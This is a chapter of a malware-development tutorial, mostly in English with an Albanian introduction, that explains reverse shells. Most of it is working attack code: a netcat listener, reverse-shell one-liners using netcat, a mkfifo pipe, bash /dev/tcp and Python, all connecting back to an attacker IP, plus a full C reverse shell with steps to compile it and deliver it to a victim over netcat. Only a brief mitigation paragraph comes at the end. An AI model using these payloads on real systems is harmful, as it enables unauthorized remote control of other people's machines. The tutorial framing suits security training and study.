

## 3. reverse shells

{height=400px}    

Së pari, do të shqyrtojmë një koncept të tillë si reverse shell, pasi kjo është shumë e rëndësishme në zhvillimin e malware-it.

### Çfarë është reverse shell?

Reverse shell ose shpesh i quajtur  "connect-back shell" është një shell në distancë që krijohet nga  objektivi duke u lidhur përsëri me makinën e sulmuesit dhe duke krijuar një shell të objektivit në makinën e sulmuesit. Kjo zakonisht përdoret gjatë procesit të shfrytëzimit (exploitation) për të fituar kontroll mbi një  makinë në distancë.


The reverse shell can take the advantage of common outbound ports such as port `80, 443, 8080` and etc.

The reverse shell usually used when the target victim machine is blocking incoming connection from certain port by firewall. To bypass this firewall restriction, red teamers and pentesters use reverse shells.

But, there is a caveat. This exposes the control server of the attacker and traces might pickup by network security monitoring services of target network.

There are three steps to get a reverse shell.  
Firstly, attacker exploit a vulnerability on a target system or network with the ability to perform a code execution.  
Then attacker setup listener on his own machine.  
Then attacker injecting reverse shell on vulnerable system to exploit the vulnerability.

There is one more caveat. In real cyber attacks, the reverse shell can also be obtained through social engineering, for example, a piece of malware installed on a local workstation via a phishing email or a malicious website might initiate an outgoing connection to a command server and provide hackers with a reverse shell capability.

{width="80%"}

The purpose of this post is not to exploit a vulnerability in the target host or network, but the idea is to find a vulnerability that can be leverage to perform a code execution.

Depending on which system is installed on the victim and what services are running there, the reverse shell will be different, it may be `php, python, jsp` etc.

***

### listener

For simplicity, in this example, the victim allow outgoing connection on any port (default iptables firewall rule). In our case we use `4444` as a listener port. You can change it to your preferable port you like. Listener could be any program/utility that can open TCP/UDP connections or sockets. In most cases I like to use `nc` or `netcat` utility.

```bash
nc -lvp 4444
```

In this case `-l` listen, `-v` verbose and `-p` port 4444 on every interface. You can also add `-n` for numeric only IP addresses, not DNS.

    

***

### run reverse shell (examples)

Again for simplicity, in our examples target is a linux machine.   
**1. netcat**   
run:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

where `10.9.1.6` is your attacker's machine IP and `4444` is listening port.   

{width="80%"}

**2. netcat without -e**    
Newer linux machine by default has traditional netcat with `GAPING_SECURITY_HOLE` disabled, it means you don't have the `-e` option of netcat.

In this case, in the victim machine run:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

{width="80%"}

Here, I've first created a named pipe (AKA FIFO) called `p` using the `mkfifo` command. The `mkfifo` command will create things in the file system, and here use it as a "backpipe" that is of type `p`, which is a named pipe. This FIFO will be used to shuttle data back to our shell's input. I created my backpipe in `/tmp` because pretty much any account is allowed to write there.

**3. bash**   
This will not work on old debian-based linux distributions.   
run:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

{width="80%"}

**4. python**

To create a semi-interactive shell using python, run:
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

{width="80%"}

More examples: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

***

### create reverse shell in C
My favorite part. Since I came to cyber security with a programming background, I enjoy doing some things "reinventing the wheel", it helps to understand some things as I am also learning in my path.

As I wrote earlier, we will write a reverse shell running on Linux (target machine).   

Create file `shell.c`:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "10.9.1.6";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Let's compile this:
```bash
gcc -o shell shell.c -w
```

{width="80%"}

*If you compile for 32-bit linux run:* ```gcc -o shell -m32 shell.c -w```

Let's go to transfer file to victim's machine. File transfer is considered to be one of the most important steps involved in post exploitation (as I wrote earlier, we do not consider exploitation step).

We will use the tool that is known as the Swiss knife of the hacker, netcat.

on victim machine run:
```bash
nc -lvp 4444 > shell
```

on attacker machine run:
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

{width="80%"}

check:
```bash
./shell
```

{width="80%"}

[Source code in Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

### mitigation

Unfortunately, there is no way to completely block reverse shells. Unless you are deliberately using reverse shells for remote administration, any reverse shell connections are likely to be malicious. To limit exploitation, you can lock down outgoing connectivity to allow only specific remote IP addresses and ports for the required services. This might be achieved by sandboxing or running the server in a minimal container.